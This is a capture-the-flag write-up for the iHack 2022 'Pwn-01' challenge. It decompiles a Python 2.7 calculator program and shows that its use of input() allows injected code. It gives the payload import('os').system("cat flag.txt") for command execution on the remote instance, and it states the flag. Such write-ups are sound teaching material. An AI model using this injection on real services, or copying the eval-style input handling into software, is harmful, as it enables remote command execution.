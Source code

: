 # Pwn-01

> **Flag Format:** `ihack{MD5}`
>
> **Remote Instance:** `nc pwn1.ihack.sibersiaga.my 80`

### Solution

The binary is a compiled python executable. The original binary was corrupted.

```
┌──(kali💀JesusCries)-[~/Desktop/iHack/pwn/pwn-01]
└─$ file calculator_
calculator_: python 2.7 byte-compiled
```

Fix the file format by changing the extension to `.pyc`.

```
┌──(kali💀JesusCries)-[~/Desktop/iHack/pwn/pwn-01]
└─$ mv calculator_ calculator.pyc
```

The python byte-code executable can be decompiled using `decompyle6`, `pycdc` or by using this [Online Compiler](https://www.toolnb.com/tools-lang-en/pyc.html).

```python
┌──(kali💀JesusCries)-[~/Desktop/iHack/pwn/pwn-01]
└─$ cat calculator.py 

# uncompyle6 version 3.5.0
# Python bytecode 2.7 (62211)
# Decompiled from: Python 2.7.5 (default, Jun 28 2022, 15:30:04) 
# [GCC 4.8.5 20150623 (Red Hat 4.8.5-44)]
# Embedded file name: calculator.py
# Compiled at: 2022-12-09 16:17:40

import sys
print 'Welcome to IHACK2022. \nThis python program will calculate the prime numbers up to a given number.\nPlease enter a number to be calculated'
sys.stdout.flush()
number = input('')
sys.stdout.flush()
number = int(number)

def is_prime(number):
    if number <= 1:
        return False
    for i in range(2, number):
        if number % i == 0:
            return False

    return True


def print_primes(number):
    for i in range(1, number + 1):
        if is_prime(i):
            print i


print 'The prime numbers up to', number, 'are:'
sys.stdout.flush()
print_primes(number)                     
```

The code uses input function which take any input as literal python code. Therefore, we can get RCE using the shell command `import('os').system("cat flag.txt")`.

**Flag:** `ihack{ebd4e5f19d80a8f40b58a7abba5363a0}`

